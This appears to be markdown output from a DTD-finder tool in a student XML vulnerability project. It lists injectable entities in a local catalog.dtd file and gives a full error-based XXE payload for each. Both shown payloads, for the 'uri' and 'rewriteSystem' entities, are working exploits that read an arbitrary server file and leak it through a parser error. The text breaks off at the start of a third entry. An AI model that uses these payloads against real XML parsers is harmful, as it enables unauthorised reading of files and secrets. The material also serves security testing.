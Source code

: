  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `uri`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % uri 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `rewriteSystem`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % rewriteSystem 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`
